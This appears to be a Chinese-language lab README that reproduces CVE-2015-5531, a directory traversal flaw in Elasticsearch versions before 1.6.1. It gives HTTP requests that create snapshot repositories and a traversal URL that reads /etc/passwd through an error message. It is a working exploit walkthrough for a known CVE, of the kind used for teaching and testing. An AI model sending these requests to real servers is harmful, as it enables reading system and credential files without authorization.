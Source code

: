 # ElasticSearch 目录穿越漏洞（CVE-2015-5531）

jre版本：openjdk:8-jre

elasticsearch版本：v1.6.0

影响版本：1.6.1以下

## 原理

参考文章

- https://www.exploit-db.com/exploits/38383/
- http://www.freebuf.com/vuls/99942.html

说明：

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

## 漏洞复现

### 1. 新建一个仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

![](1.png)

### 2. 创建一个快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

![](2.png)

### 3. 目录穿越读取任意文件

访问 `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](3.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![](4.png)